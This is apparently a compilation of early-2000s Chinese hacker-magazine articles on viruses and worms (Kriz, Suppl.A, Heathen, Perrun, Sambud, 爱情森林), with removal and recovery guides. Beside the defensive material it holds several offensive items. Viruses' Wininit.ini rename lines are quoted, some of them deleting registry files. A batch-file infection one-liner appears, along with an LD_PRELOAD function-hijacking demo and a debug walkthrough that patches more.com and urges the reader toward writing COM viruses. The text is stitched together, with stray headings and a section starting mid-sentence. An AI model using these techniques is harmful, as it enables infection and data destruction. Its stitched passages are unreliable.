该病毒又叫圣诞节病毒，内存驻留型，具有多形性且被瑞星检验。在12月25日发作时将改写CMOS，覆盖所有驱动器上的所有文件，然后用CIH病毒中的同样程序破坏主板上Flash BIOS；该病毒感染*.EXE（PE格式）和*.scr文件，同时为了监控所有文件操作，它感染Kernel32.dll，接管文件复制、打开、移动等文件存取函数；由于kernel32.dll文件在Windows运行时只能以只读方式打开，为感染它，该病毒将它复制一份，名为KRIZE0.TT6，然后感染复制品KRIZE0.TT6，写Rename指令到Wininit.ini文件中，下次机器启动时，KRIZE0.TT6将替代原来的Kernel32.dll完成感染。

### 2、Suppl.A蠕虫

这是一个Word宏蠕虫，通过在发出的E-mail中插入一个特洛伊文档作为附件传播。当被打开时病毒拷贝文档到Anthrax.ini，把要展开的数据写到文件dll.lzh，并解压为dll.tmp，以上文件都放在Windows目录下。下一次这个蠕虫创建一个具有如下内容的Wininit.ini文件。

```ini
[rename]
nul=c:\windows\dll.lzh
c:\windows\system\wsock33.dll=c:\windows\system\wsock32.dll
c:\windows\system\wsock32.dll=c:\windows\dll.tmp
```

第一行是删除dll.lzh，第二行是把原wsock32.dll改名为wsock33.dll，下一步启动时，这些指令将生效。这样wsock32.dll就被感染了。利用它，蠕虫就可监控外发邮件，一旦发现外发邮件，蠕虫就自动地将特洛伊木马文档作为附件加到该邮件中进行传播；感染7天后，该病毒将把硬盘上所有以DOC、XLS、TXT、RTF、ZIP、ARJ、RAR为扩展名的文件长度变为0，从而破坏所有的数据文件。

### 3、Heathen病毒

多平台病毒，感染Word文档和PE格式EXE文件。为了感染explorer.exe，病毒先把explorer.exe复制为heathen.vex，然后加一条“rename”指令到Wininit.ini文件，例如：

```ini
[rename]
c:\windows\explorer.exe=c:\windows\heathen.vex
```

下次启动时，Windows将帮助它完成对Explorer.exe的感染。另外，该病毒发作时也使Wininit.ini来删除Windows注册表文件。

```ini
[rename]
nul=c:\windows\system.dat
nul=c:\windows\user.dat
nul=c:\windows\system\dao
nul=c:\windows\user.dao
```

#### 4、Win95.SK

这是最凶狠、最狡猾的病毒之一！原有一些BUG，现在已出现了更新版本，纠正了第一个版本中的所有BUG。它是一个寄生性的Windows病毒，既感染Windows PE格式文件、HLP帮助文件、压缩包文件（RAR、ZIP、ARJ、HA）。它采用了许多新的高级技术，如：自身加解密技术、入口点隐藏技术等。当磁盘上文件被访问时，它检查其文件名，如果是几个反病毒程序的名字（DINF、AVPI、AVP、VBA、DRWEB），该病毒将删除从C盘到Z盘的所有目录下的所有能被删除的文件，然后调用函数Fatal_Error_Handler使系统死机。

Windows Shell文件explorer.exe是Windows病毒必争之地，该病毒自然不会放过，但比其它病毒更加歹毒。它通过从system.ini文件中的“shell=”行来获得Shell文件名，这样，即使你将explorer.exe改名，在shell中指定实际的文件，期望借此避免被感染，也是徒劳。它感染Shell文件的具体步骤是：以explorer.exe为例，把explorer.exe复制为explorer.exf，然后感染explorer.exf，再创建Wininit.ini文件，写入合适的Rename指令，这与其它病毒的作法如出一辙。

由于上述原因，一些实时病毒监控软件已把Wininit.ini文件列为重点监控对象。

### 三、采用 Wininit.ini 彻底杀除病毒

在Windows平台下杀病毒，会碰到类似问题。如何清除正在运行或处于打开状态的染毒文件中的病毒？了解了Wininit.ini文件的工作机制，我们可以这样来设计杀毒软件：在发现某个染毒文件因为正处于打开状态或执行状态而不能清除病毒时，可将其复制一份，并将复制品去毒。然后在Windows目录下创建一个Wininit.ini文件（创建之前要先查看Wininit.ini文件是否存在），建立[rename]段，加入一行：染毒文件名=复制品文件名；继续清扫病毒，如果发现类似文件，可在[rename]下再添加一行即可，扫描完成后强烈建议用户重新启动或干脆强行重新启动，以便执行Wininit.ini完成整个清毒过程。

## ELK CLONER：第一个计算机病毒

它将会得到你磁盘上所有的东西，它甚至将渗透到芯片内部，它会像胶水一样粘住你，它还会修改内存，这就是Cloner！

计算机病毒是一种在大量的电子破坏技术手段中最著名的成员。它们实际上就是一些非常危险的恶意程序，它们是丑陋的，不过在我看来它们很可爱，这源于我对Internet的驾驭和对计算机程序的探索。他们会复制自己并且可以传染其它文件，直至现在，这些被传染的文件甚至包括了那些很清白的文档文件。而且它们很容易获得，它们可以到处传播，任何时间，任何地点。实际上，没有一个OS可以完全抵御病毒的。一个病毒可以完全依靠系统本身进行复制，比如利用Windows系列操作系统的PE格式向可执行文件传播，和利用类Unix操作系统的ELF格式传播。所以，任何计算机病毒都依附于OS的体系结构，各种OS的病毒的写法都不一样，但任何OS也逃避不了病毒，包括Linux。

正如以上所说，Linux也可以被感染，就像Windows NT或者MacOS这样的操作系统。不论是PC机上的DOS或Windows，或者是Amiga，都可以创造出病毒代码。那么，我们为什么不来看看在Windows NT或Linux系统上的一些病毒呢？

你也许会奇怪，事实上第一个计算机病毒是Unix病毒（有可能第一个就是Elk Cloner，好像是编写于1980到1982年之间）。Fred Cohen在4BSD的VAX系统上编写了一些非常早的Unix病毒，一年以后Elk Cloner就诞生了。由于Unix系统具有内存保护机制，所以人们不太相信Unix系统上的病毒危害性会超过Windows和DOS系统，但他们错了。

### 一些公共的误区

一个最大的误区就是很多高性能的安全系统对病毒蔓延的预防。因为我们利用DOS系统，而它本身并不存在任何内存保护机制和数据保护机制，我们认为病毒可以完全控制计算机的所有资源。是的，它们会很轻易地成为DOS和简单的Windows操作系统的完全控制者。没有内存保护机制和数据保护机制，计算机病毒可以获取所有的计算机控制权。相对来说，Windows NT和Unix系统是具有非常高级保护机制的系统。这可以预防大多数病毒的传播，但不是所有的。当一个用户以root或administrator的身份来操作的时候，这些系统的保护机制实际上是停止了的。一个设计很巧妙的病毒可以利用自己的方法找到文件系统上的每个文件，NT ownership或者ACL机制都没有很好地重视这个问题。

另一个误区就是认为Linux系统尤其可以防止病毒的感染，因为Linux的程序都来自于源代码，不是二进制格式。这才应该值得重视，因为毕竟只有极少数的人（甚至管理员）才有足够的能力来从源代码中发现病毒代码，而且这是一个相当耗费时间和精力的工作。一般的用户习惯于用二进制格式的文件来交流，因为他们不想在使用这些程序的时候还要很繁琐地执行诸如make config、make之类的命令，他们喜欢很简单地运行程序，所有的这些原因就给了Unix系统上的病毒有足够的空间来访问和操控系统。

第三个误区就是认为Unix系统是绝对安全的，因为它有很多不同的平台，而且每个版本的Unix系统很不一样。但现在不能这样了，现在的病毒都用标准C来编写以适应任何类Unix操作系统，并且它们可以用make程序来跨平台编译。想想那个Morris写的Internet蠕虫病毒利用的就是这项技术，并且还有标准的ELF二进制格式和库文件。

### Shell 脚本

我们面临的第一个问题就是如何传播的问题，这是天生具有的问题，至少在Unix系统上是如此。我们需要想办法使各个平台兼容，所以我们首先想到的是：shell脚本语言。shell在不同的Unix系统上面的差别很小，所以Fred Cohen在他的书《入侵者、蠕虫和病毒》发表于1990年时写道：

在Unix的命令解释器语言中，病毒代码可以被写到200个字节之内。也许我们可以根据他的话来写一个man page的病毒脚本，可以用来操作文件和可执行程序，这和宏病毒非常相像。man page的病毒不会蔓延到别的系统上，除非你有为别的用户改变man page格式的习惯。无论如何，这种病毒都是一个公共的跨系统的病毒。同样，也可以写另一个脚本病毒来控制mail的阅读者。

书写Shell脚本病毒是一个很简单的制造Unix病毒的方法。我知道肯定会有很多同行会说，脚本病毒怎么会是真正的病毒呢？它只是用脚本语言来书写的而不是用汇编。但是实际上，我们评定一个病毒是看病毒本身是否可以在系统上任意感染传播，而不是这个病毒的大小或者用什么语言来写的。但是，我想大多数的用户都会不理解以下代码吧：

```bat
for %%f in (*.bat) do copy %%f + bfv.bat
```

通常一个用户会深信不疑地去执行任何脚本，而且不会过问该脚本的由来。这样，这些用户都成为病毒的目标了；这些都是用户的意识问题，这样是没办法避免病毒的入侵的，所以我们的用户需要大大加强对这些病毒的防范意识。

### 蠕虫

另外的一个影响广泛的技术就是蠕虫，想象一下Morris蠕虫：利用攻击程序，一般这些攻击程序都是已经存在的技术。这个蠕虫利用一个sendmail程序已存在的一个漏洞来获取其机器的控制。

## 姜戈

## 黑客X档案2002-2003年合订本

权。病毒一般会利用 rexec、fingerd 或者口令猜解来尝试连接，在成功入侵之后，它会在目标机器上编译源代码并且执行它，而且会有一个程序来专门负责隐藏自己的脚印。

Internet 的蠕虫病毒一般都是利用已知的攻击程序去获得目标机的管理员权限，但是蠕虫的生命也是很短暂的，当该病毒所利用的漏洞被修补的话，那么该蠕虫也就失去它的作用了。因为它们需要利用 exploit 这个媒介来进行自身的复制，而 exploit 又是只针对特定版本的特定程序才会有效的，所以蠕虫的跨平台能力很差，时效性也很弱。

## 欺骗库函数

我们可以愚弄那些比较傻的用户。如果你利用 LD_PRELOAD 环境变量来捉弄他，你可以让他执行你自己的代码，利用 LD_PRELOAD 环境变量把标准的库函数替换成你自己的程序。挺有意思吧？

LD_PRELOAD 并不是 Linux 系统特有的，并且它一般用在一些应用程序（比如老版本的 StarOffice 需要运行在较新版本的 Red Hat 系统上）必须用它们自己的（或者比较老的版本，或者修改过的）库函数，因为在安装的时候没有满足它们的需求。Quantum（Staog 病毒的作者）在 Unix 病毒的邮件列表里面提供了这些代码，我做了修改，也是为了便于大家理解：

```c
/* tryld.c */

extern int __open(char *, int, int);
extern int execve(char *, char *[], char *envp[]);

int open(char *path, int flags, int mode)
{
    printf("open: %s\n", path);
    return __open(path, flags, mode);
}

/* 注意这里，原来它放弃了 envp 参数，这样会……(2) 啊，所以我修改了一下，影响不大 */
int execve(char *path, char *args[], char *envp[])
{
    printf("execve: %s\n", path);
    return execve(path, args, envp);
}
```

```c
/* main */
/* test only by e4gle */
#include
#include
#include
#include

main()
{
    int fd;
    execve("/bin/date", "", NULL);
    if ((fd = open("/etc/inittab", O_RDONLY)) != -1)
    {
        fprintf(stdout, "open file succeed!\n");
    }
    else
    {
        fprintf(stderr, "open error!\n");
        close(fd);
        return 0;
    }
}
```

这段代码获取 open 和 execve 并且改变了它们的输出，好，我们测试一下：

```bash
[e4gle@redhat62 elf]$ gcc -o main main.c
[e4gle@redhat62 elf]$ ./main
open file succeed! <- 证明我们打开文件成功了，open 调用正常工作。
[e4gle@redhat62 elf]$ ldd -v -r ./main
libc.so.6 => /lib/libc.so.6 (0x4001c000)
/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)

Version information:
./main:
libc.so.6 (GLIBC_2.0) => /lib/libc.so.6
/lib/libc.so.6:
ld-linux.so.2 (GLIBC_2.1.1) => /lib/ld-linux.so.2
ld-linux.so.2 (GLIBC_2.1) => /lib/ld-linux.so.2
ld-linux.so.2 (GLIBC_2.0) => /lib/ld-linux.so.2
/* 跟踪一下库函数的利用，都是 glibc 的标准库函数，solaris 里面是 sotruss，我个人认为 sotruss 比较好用。 */
[e4gle@redhat62 elf]$ gcc -shared -o tryld tryld.c
[e4gle@redhat62 elf]$ export LD_PRELOAD=./tryld <- 用我们自己的 lib！
[e4gle@redhat62 elf]$ ./main
execve: /bin/date
open: /etc/inittab
open file succeed!
/* 注意！不一样了吧？已经在用我们自己的 open 和 execve 了，啊啊 */
```

以上仅仅是个测试代码，并且没有任何危害性，但是它足以说明我们利用欺骗函数库来攻击程序的原理。

## 内核级的传播

这里我们称作“内核级别的病毒”，病毒可以传染内核映像，这样病毒可以控制系统的方方面面。但是这种病毒技术目前尚处于理论阶段，并没有真正实现；也并不代表以后都不会出现。

## 与平台兼容的病毒

如果我们用标准 C 来书写病毒代码的话，各种不同体系的 Unix 系统对于我们来说变化不大。我们只需要对方计算机有一个 C 编译器，这样的病毒可以很轻易地扩散，利用普通用户的 rhosts 文件这类小伎俩就可以做到。假如没有 exploits（是有可能的，因为病毒是跨平台的！），因而它可以不借助 exploit 来四处扩散，这种可以跨平台的病毒的传染面是非常广的，而且似乎根本没有结束的时候。

## 我们安全么？

一个很实际的问题。现在我们的 Linux 系统还可能比较安全，但以后不代表一定是这样。Linux 系统越来越流行，这将引来一大批病毒制造者的目光。很多用户都有可能是潜在的病毒制造者，而且如果把 Unix 和很多用户对 Unix 本身的了解都减少了，病毒的设计，我们就成病了。现在已经有了一些 Linux 系统上的反病毒程序，现在甚至包括我还有很多 Unix 的系统管理员在内，都对制造反病毒程序非常感兴趣。在一个蠕虫出现之后，我们可以查阅各种文档，甚至书籍，所以我们也都一直在努力着。

最后一个很具讽刺的玩笑：我们具有真正有效的 Linux 反病毒程序，那么微软的 Outlook/Exchange 等也和 Linux 联合了，我们也就真正安全了，可能么？

## W32/Perrun 病毒

洪宝光

对于图片相信你不会陌生，一张好的图片可以给你带来不少光彩。可以说一台电脑中不可能没有图片！而图片的格式一般是 GIF、JPEG、BMP 等等为后缀名的图片文件。对于这样的格式的图片文件，很多用户都认为它们比较安全（毕竟它们不包含一些代码程序），不会存在什么隐患。而最近我发现我的 JPEG 图像文件莫名其妙地变“胖”了，很是奇怪，不会是别的朋友给我的图片文件添加了不少东西吧！但是想想也不可能，怎么会是所有的 JPEG 图像都被它们改变了呢？比如原来我的一个 JPEG 图像文件为 20KB，现在变成了 31KB，是不是我的电脑有问题呢？经过一段时间的研究，终于发现原来是一个 W32/Perrun 病毒在搞鬼。

### 1、病毒特征：

该病毒的名称是 W32/Perrun，而其变种的病毒为 W32.Perrun.dr。病毒的长度为 11780 字节（UPX 压缩后）、5636 字节（“提取器”文件），类型是 Win32 蠕虫。该病毒所感染的系统还真不少，比如 Windows 3.x、Windows 95、Windows 98、Windows NT、Windows 2000、Windows XP、Windows Me 等等都可以被该病毒所感染。对于源代码开放的系统则不受其感染。此病毒还可感染 .jpg 文件，感染迹象是 .jpg 文件大小会增加大约 11K，并且出现 Extrk.exe 文件。有的时候增加得还更大，让我们无法想象。

### 2、病毒运行后的情况

当你运行了该病毒之后，首先会生成 Reg.mp3 文件（这是一个注册表文件，病毒用它来修改注册表），接着会生成 Extrk.exe 文件（可执行文件，会被设置在注册表里用来打开所有的 JPEG 文件）。该病毒还会修改注册表键值 HKEY_LOCAL_MACHINE\Software\Classes\jpegfile\shell\open\command 为 extrk.exe %1，来达到系统运行时该病毒也可以运行。


### 3、删除方法

- 1) 手工法：在注册表 HKEY_LOCAL_MACHINE\Software\Classes\jpegfile\shell\open\command 里把键值 extrk.exe %1 删除即可。
- 2) 利用 KV3000 软件，先升级你的病毒包，升级的方法是执行实用工具，选择升级命令即可进行升级病毒包。接着是对硬盘文件进行扫描，这里可以将整个硬盘都选中，也可以根据自己所怀疑的文件夹进行扫描。在扫描得到病毒之后，点击“实用工具”中的“隔离病毒”命令，这时会弹出许多扫描得到的病毒，我们一一地将它们删除即可。


## 【轻松清除探索之星病毒】

一谈到木马，相信你一定望而生畏。它对你的危害是非常大的，比如你一旦中了木马，那么你的机器将得不到安宁。黑客入侵、远程控制等等，严重的话可以将你的机器给毁了。

最近笔者中了一个名字为探索之星的病毒，名称是 Trojan.FindStar.command，是随机发作的，这是一个一次可以释放出 6 个木马的病毒。

### 一、病毒介绍

此病毒运行时会释放出 6 个木马程序，可谓桃李满天下。而且发作是随机的，没有时间的控制，所以对该病毒也不好把握。这 6 个木马程序分别是：Route.exe、Ftp.exe、Recover.exe、ScanReg.exe、D3d1.dll、Sysscan.exe，你可别小看这几个程序啊！一旦发作那可不得了。当你运行了此木马，病毒就会对你的系统进行破坏，然后病毒修改注册表的 RunService 项，将这 6 个木马文件加入到注册表项，在下次重启计算机时，这 6 个木马会同时运行，严重消耗系统资源，并阻塞网络。同时，病毒发作时还会修改当前窗口的文字来进行捣乱。

最重要的一点是，此病毒会将计算机的密码获取并存入系统目录中的 Bios.dll 文件中，伺机将此文件传送出去，造成安全隐患。

### 二、病毒的防范方法

病毒为什么老是能够入侵我们的机器呢？根据我杀毒的经验，下面谈谈怎么防止病毒入侵的方法。

- 1. 当我们对邮件进行接收之后，不要盲目地运行邮件所带的附件程序，而且当我们遇到匿名信件时最好是将其删除。如果怕删除了信件，那么先升级病毒包之后，然后扫描它，确定没有病毒之后，再运行。
- 2. 每当启动一次电脑时要将我们的病毒防火墙同时启动，这样可以防范一些病毒的入侵。
- 3. 要养成定期查毒、杀毒的习惯。

### 三、删除方法

- 1. 查找硬盘，重点是系统目录，看是否有 Route.exe、Ftp.exe、Recover.exe、ScanReg.exe、D3d.dll、Sysscan.exe 文件；如果有，则将此文件直接删除。
- 2. 对注册表进行更改：运行“开始→运行”，在弹出对话框中输入“regedit”，查看注册表的 HKEY_LOCAL_MACHINE\SoftWare\Microsoft\Windows\CurrentVersion\RunService 项，看其中是否有上面提到的文件。如果有，则将这些键值删除即可。
- 3. 如果病毒正在运行，则无法删除这些文件，这时候用启动盘启动到 DOS 模式下，将这些病毒文件删除。如果硬盘分区是 NTFS 格式的，可以用瑞星 DOS 版进行查杀此病毒。或者是先对病毒包进行升级，然后执行“杀毒”即可将其删除。

## 病毒发作后的急救措施

根据病毒发作后不同的破坏程度，可采用一些相应的急救措施来进行挽救，以使损失减到最小。下面对不同的病毒破坏介绍一些较为常用的补救措施。

### 一、Flash BIOS 被破坏

重写 BIOS 程序，这项操作最好由专业技术人员进行，对于某些主板可能无法重写 BIOS，此时只能更换主板。

### 二、CMOS 被破坏

将 CMOS 放电，然后进行重新设置。注：有些主板提供了键盘恢复功能，开机时按住“Insert”键不放，可使 CMOS 恢复至初始状态。

### 三、引导区或主引导扇区被破坏

某些杀毒软件可以备份和恢复系统主引导和引导区信息内容，出现问题后可用此备份恢复。对于没有备份引导区记录的用户，可以使用相关的工具来恢复。如果确认为引导区病毒破坏的情况（通常的症状是计算机无法检测到硬盘的情况），数据本身还在，只是链接文件被破坏，此时可使用金山毒霸的硬盘修复工具 Kavfix.exe 进行修复。Kavfix 软件中的 0 号功能专门用来处理硬盘分区出错的情况，具体的使用方法就不在这里叙述，在 Kavfix 软件中有详细的使用方法。

### 四、系统文件丢失

如能正常启动，只需运行系统文件检查器进行恢复。在 Windows 98 下操作方法如下：

- 1. 通过提示得知丢失文件的名称和路径。随后单击“开始”→“附件”→“系统工具”→“系统信息”程序。
- 2. 单击“系统信息”程序的“工具”菜单中的“系统文件检查器”。
- 3. 选中“系统文件检查器”中的“从安装软盘提取一个文件”，然后在下面的文本框中输入要提取的文件名。
- 4. 单击对话框左下方的“开始”按钮，打开“提取文件”对话框。如果将使用原始安装盘进行恢复且事先用“系统文件检查器”扫描过系统，它会自动在“还原自”和“将文件保存到”框内给出文件的源路径和恢复路径，然后单击“确定”即可自动完成丢失文件的提取和恢复。

在 Windows 2000 中，可在“开始→运行”中输入“SFC /SCANNOW”。系统会自动启动文件保护，Windows 会验证所有受保护的系统文件；此时插入 Windows 2000 安装盘，选择修复即可。

如果系统文件丢失导致 Windows 不能运行，此时需要在 DOS 下进行恢复。一般情况下，在无法进入 Windows 时，会出现 XXX 文件丢失的提示，记下这些文件名称和路径，然后用 Windows 98 启动盘启动计算机，选择多重配置启动菜单中的第一项，即加载通用 CD-ROM 驱动程序并创建一个大小为 2MB 的 RAM 驱动器。这个 RAM 驱动器的盘符会有提示，进入该驱动器，载入 Ext.exe 后回车。输入 Windows 98 安装压缩包所在的完整路径，回车后根据提示输入丢失的文件名，接着输入目标路径，如 C:\Windows\System 并敲回车。最后出现确认提示“Is this OK?(y/n):”，输入 y 后回车。Ext 程序会自动查找安装盘中的 CAB 压缩包，并将文件释放到指定的位置。

### 五、应用程序文件丢失

出现这种情况时，可重新安装应用程序。

## 黑客X档案2002-2003年合订本

## COM 病毒是如何编得天花乱坠

可能现在用过计算机的人没有不知道计算机病毒的。由于各种原因，会编病毒的人都秘而不宣，造成大家一种误解：病毒很神秘，其实不是的，病毒也是程序，只不过是有些特别。

好，下面我来简单地讲讲 COM 病毒是如何编制的。

COM 文件是一种单段执行结构，起源于 CP/M-86 操作系统，其执行文件代码和执行时内存映像完全相同，其起始执行偏移地址为 100h，对应于文件的偏移 0。

运行 debug 先来做一个练习，我们拿 DOS 6.22 中的 more.com 来做实验。

```asm
debug more.com
-u
0CA4:0100 B8371E    MOV AX,1E37
0CA4:0103 BA3008    MOV DX,0830
0CA4:0106 3BC4      CMP AX,SP
0CA4:0108 7369      JNB 0173
0CA4:010A 8BC4      MOV AX,SP
0CA4:010C 2D4403    SUB AX,0344
0CA4:010F 90        NOP
0CA4:0110 25F0FF    AND AX,FFF0
0CA4:0113 8BF8      MOV DI,AX
0CA4:0115 B9A200    MOV CX,00A2
0CA4:0118 90        NOP
0CA4:0119 BE7E01    MOV SI,017E
0CA4:011C FC        CLD
0CA4:011D F3        REPZ
0CA4:011E A5        MOVSW
0CA4:011F 8BD8      MOV BX,AX

AX=0000 BX=0000 CX=09F1 DX=0000 SP=FFFE
BP=0000 SI=0000 DI=0000
DS=0CA4 ES=0CA4 SS=0CA4 CS=0CA4 IP=0100
NV UP EI PL NZ NA PO NC
0CA4:0100 B8371E    MOV AX,1E37

a af1
0CA4:0AF1 mov al,0
0CA4:0AF3 int 16        ; 等待按键
0CA4:0AF5 cmp al,1b     ; 等待 ESC 键
0CA4:0AF7 jnz af1
0CA4:0AF9 mov word ptr [100],3fb8 ; 恢复程序开始的三个字节
0CA4:0AFF mov byte ptr [102],0e
0CA4:0B04 push cs       ; 进栈 CS:100
0CA4:0B05 mov si,100
0CA4:0B08 push si
0CA4:0B09 retf          ; RETF 回到 CS:100，程序开始处

0CA4:0B0A
-a 100
0CA4:0100 jmp af1       ; 将程序开头改成跳转到修改的模块
0CA4:0103
-rcx
CX 09F1
:0A0A
-w
Writing 00A0A bytes
-q
```

- 1. 把程序开始处的指令修改成了跳转到最后添加的程序位置。
- 2. 最先执行添加的程序（相当于病毒模块），等待 ESC 键。
- 3. 按下 ESC 键后修改回程序开始的指令，跳转回到开始（执行原始程序）。

修改完了，来执行 more.com，发现什么没有？结果不按 ESC 键程序无法执行，流程很简单：

好了，如果你能看懂上面这段话，那你离编写自己的 COM 病毒将不会很远了。

## 删除 Sambud 蠕虫病毒

对于 P2P 病毒相信你不会很陌生，这个在很多网站上都有所介绍。但是我这又出了个新的 P2P 病毒，这个病毒就是 Sambud。病毒的名称是：Worm.P2P.Sambud，这是一个蠕虫病毒，感染长度是 396288 字节。

### 一、病毒特征

该蠕虫运行后会驻留内存，并通过 KAZAA 这个流行的文件共享程序来传播。蠕虫运行后会弹出一个对话框，内容为“(C) by Energy Germany!”，然后在系统目录（通常为 c:\windows）下创建一个文件夹 Sys32，并将自己复制到该文件夹下，命名为 turbo_forkaza.exe。这样可以继续地对你的机器进行感染，接着就是对你的注册表进行改造，将 HKEY_CURRENT_USER\Software\Kazaa\LocalContent\DisableSharing 的键值设置为“0”，这使得被感染的机器会被别的机器共享；将 HKEY_CURRENT_USER\Software\Kazaa\LocalContent\dir99 的键值设置为“012345:%windows%sys32”，这使得程序会随开机而自动运行。

### 二、病毒感染后的现象

一旦感染这个病毒之后，我们的机器将运行得特别慢，而且还会出现一个对话框，内容为“(C) by Energy Germany!”。有时还会出现死机现象、蓝屏等等。

### 三、病毒的清除

- 1. 我们首先要调出任务管理器（在 Win98 及 WinMe 中同时按 Ctrl+Alt+Del 键，在 2000 及 NT 中点系统工具条的右键，选择任务管理器菜单），关掉正在运行的蠕虫，然后删除注册表 HKEY_CURRENT_USER\Software\Kazaa\LocalContent 中键名为 dir99 的键，将 HKEY_CURRENT_USER\Software\Kazaa\LocalContent\DisableSharing 的键值改为 1，最后应将 Sys32 文件夹下的蠕虫程序删除。
- 2. 利用杀毒软件，首先是对病毒包进行升级之后，即可将其删除。

## 堵住病毒入口

我们都曾经经历或目睹过病毒对信息系统带来的巨大危害。事实上，病毒是一种程序，并总是隐藏在一些可能被用户不经意间运行的地方。

## 病毒的隐藏之处

- **可执行文件**：病毒“附着”在这些文件上，使其能被执行。
- **引导扇区**：这是磁盘和硬盘中的一个特别扇区，它包含一个程序，当启动电脑时该程序将被执行。
- **表格和文档**：某些程序允许内置一些宏文件，宏文件随着该文件的打开而被执行。病毒利用宏的存在进入其中。
- **Java 小程序和 ActiveX 控件**：这是两个最新隐藏病毒的地方。Java 小程序和 ActiveX 控件都是与网页相关的小程序，通过访问包含它们的网页，可以执行这些程序。
- **压缩文件**：压缩文件是一个包含其它文件的文件。压缩文件包含的任何一个文件都可能被病毒感染，因为这些文件不是处于正常格式下，所以很难发现其中的病毒。
- **电子邮件**：电子邮件信息可能包含会感染病毒的文件。此外，电子邮件信息通常属于一个信息数据库，所有这一切使侦测病毒变得非常困难。

## 防范病毒入侵

文件型病毒感染你电脑的唯一方式是通过执行受感染的文件。当你用一张被感染的磁盘引导你的电脑时，你的电脑就可能感染了引导型病毒。即使磁盘不是一张引导盘，它仍能使你的硬盘感染引导型病毒，因为试图引导它是会产生感染，记住这一点非常重要。

如果你打开一个受到感染的文档、表格或数据库，宏病毒（嵌入在文档、表格或数据库中，能执行命令序列或宏指令）将会感染你的电脑。

对于许多病毒，只要知道了它们感染的方式，就可以很容易地防止感染，如文件型病毒，只要不执行它，病毒就拿你没办法；如“宏病毒”，通常你只要在打开文档时禁用宏，“宏病毒”就没办法感染。对于内存驻留或引导型的病毒，你通常只要用一张干净的“无毒”启动盘启动，再用有效的杀病毒软件就可以清除。

人们通常认为，所有的防毒软件都是相同的。或许最广泛流传的看法是：区分防毒软件好坏的方法是所能侦测到的病毒数量。其实，真正把两种防毒软件区分开来的是它所能提供的防毒保护能力。要点是：是否保护所有出入通道，持续更新，以及能够有效持久地获得技术支持。

## 轻松搞定爱情森林

## Trojan.Sckiss 病毒

病毒真是无奇不有，连爱情都有了病毒，这个病毒的名字就是“爱情森林”，是一个恶意网页病毒。一旦你中了此病毒的话，那么可够你受的了，不过只要看了这篇文章，要删除这个病毒其实也比较容易。

**病毒特征**：这个病毒是已知的第一个利用 QQ 进行传播并破坏的恶性木马病毒。它利用本机 QQ，在用户不知情的情况下向用户的好友发送一句消息，一旦登录此网站，便会中毒。因为此网站的主页是一个恶意网页，它会自动下载“爱情森林”病毒并执行，从而对用户计算机造成破坏。

### 一、病毒传播路径：

- **利用 QQ 等聊天工具进行传播**：如果用户不小心点击或预览了病毒邮件，病毒便可执行。病毒执行时会搜索用户的 QQ 程序，如果用户在线的话，病毒会伪装成用户，给用户的所有在线好友发送一条用户无法察觉的隐藏信息，此信息的内容为：“http://sckiss.yeah.net 这个你去看看！很好看的。”如果用户的好友在收到了此信息后，因为好奇而点击了此链接，则会进入一个恶意网页。
- **利用恶意网页进行传播**：该恶意网页用 JS 语言编写，利用了 Java Exploit 漏洞，所以不经用户的允许，便可以悄悄运行，自动下载“爱情森林”病毒邮件（s.eml）并执行。然后此恶意网页会修改用户注册表进行破坏，将用户的 IE 标题改为：“http://sckiss.yeah.net/ 爱情森林”，使用户的“运行”菜单项无法使用，并且将用户的 IE 默认首页改为“http://sckiss.yeah.net/”，此恶意网页还将此网址加入注册表中的 Run 自启动项。这样一来，无论用户启动计算机还是启动 IE 浏览器，都可以自动连接到恶意网页，并感染病毒。

“爱情森林”病毒通过 QQ 发送信息之后，便开始进行本机的感染。病毒首先改名为“EXPLORER.EXE”，然后将之拷贝到 WINDOWS 的系统目录（SYSTEM 或 SYSTEM32）下，这样用户即使发现也不会起疑心，然后病毒修改注册表，在 Run 的自启动项中建立一个 EXPLORER 的键值，将病毒路径加入其中，一旦计算机重启，病毒便可自动运行，再次进行以上感染。

其实病毒也可以利用邮件来进行传播，而且这个是所有病毒的一大特征。

### 二、预防方法：

在每次启动机器时都要同时启动病毒防火墙，而且设置为监视，这样一来病毒想入侵我们的机器不是那么容易的事情，而且要删除它们也比较容易了。

### 三、删除方法：

- 1. 此病毒主要是以 QQ 传播为主，所以 QQ 的用户如果收到“http://sckiss.yeah.net 这个你去看看！很好看的”之类的信息，请一定不要点击，以免中招。
- 2. 由于病毒会利用一个网页来自动下载病毒，所以要想避免病毒执行，最好使用瑞星杀毒软件的网页监控功能。
- 3. 病毒会通过注册表来产生破坏，所以中招的用户可以用瑞星网站上提供的注册表修复工具来修复被病毒修改的注册表。
- 4. 如果用户发现硬盘上有 s.eml 的文件，则极有可能是病毒，请将之删除，以免产生后患。

## 二、规避杀毒


在病毒界中有黑客病毒，同样也有红客病毒，不过这个是一个木马病毒，和中国黑客一样是由国人自己“开发”的一个病毒，一旦你中了此病毒，那么你就会受到黑客的攻击。

### 一、病毒特征

这个病毒可以在微软的所有平台中运行，比如 Windows 9X、Windows NT、Windows 2000、Windows XP 等。

病毒的特殊之处就在于运行时会启动一个黑客攻击的界面，让用户误以为是一个攻击别人的黑客工具，但其实是攻击自己计算机的“红客”。当用户关闭程序时，程序并没有真正退出，而是在后台隐藏运行，修改注册表将自身加入自启动项，并给系统开后门，使系统完全暴露于网络之中。这个是我们最担心的问题，一旦我们的系统完全暴露，那么别人要攻击我们简直是易如反掌。

### 二、中毒现象

机器一启动就会出现一个攻击工具，一般人都认为是我们用来攻击其它用户的一个工具，而且慢慢地我们的机器运行得很慢，最后是死机，再次启动机器时已无法启动了。

防范方法：对付病毒的最好方法就是在每次机器启动时我们防杀毒软件要随之运行，而且病毒包也要及时地进行更新，不要存在我们只要安装了杀毒软件，我们就可以高枕无忧了。而且要经常性地对硬盘进行扫描，将病毒一个不留地清出机器。

### 三、删除方法

由于这个病毒相对来说比较厉害，要想在一步之内将其删除的话，那是不可能的，我们可以通过如下的三个步骤来解决。

第一步：一旦中了此病毒，而且已经成功地运行了（就是带着怀疑的态度），可以同时按下 CTRL+ALT+DEL 键来查看一下是否有可疑进程，如果发现有一些不明进程在幕后运行的话，将其删除即可。如图 1 所示：


第二步：通过修改注册表来删除病毒，我们都知道一点：病毒会修改注册表，而且还将自身加入注册表的启动目录，以便下次计算机启动时会自动运行病毒。所以，对注册表比较熟悉的用户可以查看注册表的启动项，看是否有陌生程序进入，如果有将之删除。如图 2 所示，找到和这个木马病毒有关的键值，将其删除即可。


